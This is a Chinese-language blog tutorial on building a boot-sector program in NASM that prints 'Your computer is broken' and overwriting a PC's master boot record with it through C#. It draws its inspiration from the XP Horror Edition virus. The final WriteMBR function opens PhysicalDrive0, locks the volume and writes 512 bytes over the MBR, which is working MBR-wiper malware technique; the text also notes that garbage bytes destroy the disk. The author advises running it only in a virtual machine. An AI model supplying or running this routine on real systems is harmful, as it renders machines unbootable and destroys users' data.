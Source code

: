 # 使用汇编生成MBR并使用C#修改

by ![Xbodw]([../Resources/Xbodw.png])

该文章遵循 [Attribution-NonCommercial 4.0 International]()许可协议.

## 前言

之前我分享了一个使用[Csharp(简称C#,后文用此称)](https://learn.microsoft.com/zh-cn/dotnet/csharp/tour-of-csharp/)修改[MBR](https://baike.baidu.com/item/%E4%B8%BB%E5%BC%95%E5%AF%BC%E8%AE%B0%E5%BD%95/7612638)的方法,但是,MBR是由不同进制的字符组成的,我们想要让MBR~~变成
硬盘逻辑锁~~ 显示 我们想要的字符串该怎么办？
   
   修改MBR教程链接 [016281261](?id=016281261)

该操作极其危险,需要对电脑及其熟练的人才能操作,建议在虚拟机内运行,否则,后果自负!

## 开始之前

不知大家是否知道世界上的几大电脑病毒,其中比较恐怖的有 Windows XP horror Edition.用网上简洁一点的话说,该病毒涵盖了以下几个特征:
 1.伪装成XP升级包
 
 2.运行后改注册表
 
 2.运行后改[MBR](#前言)
 
 3.修改系统文件,常见的有 666.sys

 4.进度达`66%`的时候原本伪装的XP升级界面界面变红

 5.界面变红后出现几大恐怖节目

给大家看一下该病毒改完MBR后的效果图:

![XP Horror Edition的效果图](https://ts3.cn.mm.bing.net/th?id=OIP-C.OiD8YLDkDHFoGrBmT0D4SwHaEo)

这就是通过修改MBR实现的.想要改这样的MBR不是一件简单的事.

## 准备工作

前往 [NASM官网(2.16.01下载链接)](https://www.nasm.us/pub/nasm/releasebuilds/2.16.01/win64/nasm-2.16.01-installer-x64.exe) 下载NASM.
使用汇编语言这种底层语言修改MBR是比较简单的事情.

下载完之后打开安装程序,无脑点击Next 下一步即可,安装完成后创建一个空目录.

使用资源管理器打开刚才的空目录,在地址栏键入 `cmd` 并回车,打开命令提示符.

输入`nasm --version`查看版本号,确保nasm没有报错后进行下一步.

在这个空目录里新建MBR.asm,使用Notepad++等专业工具打开,在里面输入以下内容并保存.
```asm
    org 07c00h          ; 使其加载到7c00处
    mov ax, cs
    mov ds, ax
    mov es, ax
    call    DispStr         ; 调用显示字符串例程
    jmp $          ; 无限循环显示
DispStr:
    mov ax, BootMessage
    mov bp, ax          ; ES:BP = 串地址
    mov cx, 16          ; CX = 串长度
    mov ax, 01301h      ; AH = 13,  AL = 01h
    mov bx, 000ch       ; 页号为0(BH = 0) 黑底红字(BL = 0Ch,高亮)
    mov dl, 0
    int 10h         ; 10h 号中断
    ret
BootMessage:        db  "Your computer is broken"
times   510-($-$$)   db  0   ; 填充剩下空间为512B
dw  0xaa55
```
保存后在打开的命令提示符内输入 `nasm MBR.asm -o MBR.bin`(可以不带 .bin扩展名)

随后在命令提示符内输入
```batch
echo= > boot.img
```
打开 [FloppyWriter](https://raw.githubusercontent.com/huangyingw/FloppyWriter/master/Release/FloppyWriter.exe)(需要先登录Github),点击 `Write FIle to Image`,选择刚才生成的MBR文件,然后会弹出第二个选择框,选择boot.img.

此时如果弹出 成功,表示操作成功.

随后我们可以打开Vmware WorkStation,选择任意虚拟机(创建虚拟机网上有教程,此处不再赘述),点击 "编辑虚拟机设置",


![添加硬件](https://img2.imgtp.com/2024/01/27/t3DmTfqI.png)

再点击"添加(A)",


![选择硬件类型](https://img2.imgtp.com/2024/01/27/CRvXhzMk.png)

选择”软盘驱动器"


![选择软盘加载方式](https://img2.imgtp.com/2024/01/27/wjmfvEjm.png)

再选择“使用软盘镜像文件",点击浏览,


![浏览boot.img](https://img2.imgtp.com/2024/01/27/VLyaOS3C.png)

选择boot.img镜像并点击确定,随后可以启动虚拟机查看文字效果.

![最终演示效果](https://img2.imgtp.com/2024/01/27/qAtJgI41.png)

上述代码由于字节过长,文字显示不全只能显示 "you computer is",需要把文字搞短一点点.使用MBR只能显示很短的文字,可以使用EFI显示文字.后续可能会出如何编写EFI显示文字的教程.

回到正题,我们已经生成了汇编ASM文件.接下来可以使用HexView工具查看MBR的Hex数据,也就是类似于这样开头的数据:

![MBR代码的Hex](https://img2.imgtp.com/2024/01/27/HMEP2ZQb.png)


由于HexView工具本身不支持复制MBR数据,所以我们只能截图并使用文字识别(注意识别出的文字切记要比对Hex原文,无需比对全部,比对一下里面不是`00`的地方即可.)

随后在`Visual Studio`中创建一个 Csharp ConsoleApp (控制台应用) 项目,我以ConsoleApp3为命名,且看`Main`函数的实现代码:
```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Text.RegularExpressions;
using System.Threading.Tasks;

namespace ConsoleApp3
{
    internal class Program
    {
        static void Main(string[] args)
        {
            string hexCode = @"8C C8 8E D8 8E CO E8 02
00 00 ......"; //把你的识别出来的MBR码放进去

            Regex regex = new Regex("[0-9A-Fa-f]{2}");
            MatchCollection matches = regex.Matches(hexCode);

            byte[] scode = new byte[matches.Count];

            for (int i = 0; i < matches.Count; i++)
            {
                byte b = Convert.ToByte(matches[i].Value, 16);
                scode[i] = b;
            }
            string hexString = string.Join(" ", scode.Select(b => "0x" + b.ToString("X2")));
            Console.WriteLine(hexString); //打印转换后的MBR数组
            Console.ReadLine(); //保持窗口不关
        }
    }
}

```
输入完代码按下`Ctrl`+`Shift`+`S`组合键保存代码(此代码可以多次利用,可谓是~~摸鱼好帮手~~ 一劳永逸).此时如果你按下了`F5`,就会打开一个控制台窗口.

![输出效果](https://img2.imgtp.com/2024/01/27/d6DOZveR.png)


如果你看到的是这种类型的(0x开头的数字或字母),代表你的MBR没问题.


不对呀,直接在每个MBR前面加0x不就行了? 不不不,~~懒~~ 一劳永逸不是很好吗?


如果报错了,那么可能是你在文字识别MBR图片的时候某个地方出错了,建议再次检查.

复制输出的那一堆 `0x` 开头的字符(从头到尾)

接下来重点来了,本次修改MBR的方式有一些不同,之前的[016281261](?id=016281261)是直接破坏,而本次是修改,如果乱填MBR码,也可以达到破坏的效果.

话不多说上代码:
```csharp
static void WriteMBR()
{
    byte[] scode = new byte[]
    {
        0x8C,0xC8,0x8E,0xD8,0x8E,0xE8,0x02,0xB9,0x10,0x00, ...                                 
    }; //自己之前通过控制台生成的MBR码
    uint dwBytesReturned;
    byte[] pMBR = new byte[512]; //MBR正好为 512 个字节
    Array.Clear(pMBR, 0, pMBR.Length);

    Array.Copy(scode, pMBR, scode.Length);
    /* pMBR[510] = 0x55; */
    /* pMBR[511] = 0xaa; */  //这两句代码其实是没必要的,如果你仔细留意之前控制台程序打印的MBR,你会发现结尾是有 0x55和0xaa的,加不加都没有关系

    IntPtr hDevice = CreateFile("\\\\.\\PhysicalDrive0", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, IntPtr.Zero, OPEN_EXISTING, 0, IntPtr.Zero);
    if (hDevice == IntPtr.Zero || hDevice.ToInt32() == -1)
    {
                MessageBox.Show("CreateFile failed..."); //创建硬盘文件失败
                return;
    }

    DeviceIoControl(hDevice, FSCTL_LOCK_VOLUME, IntPtr.Zero, 0, IntPtr.Zero, 0, out dwBytesReturned, IntPtr.Zero);

    WriteFile(hDevice, pMBR, 512, out dwBytesReturned, IntPtr.Zero);
    DeviceIoControl(hDevice, FSCTL_UNLOCK_VOLUME, IntPtr.Zero, 0, IntPtr.Zero, 0, out dwBytesReturned, IntPtr.Zero);
}
```

好了,本文章就到这里.如果你对我的文章满意,可不可以给我点一个三连或者赞?






 
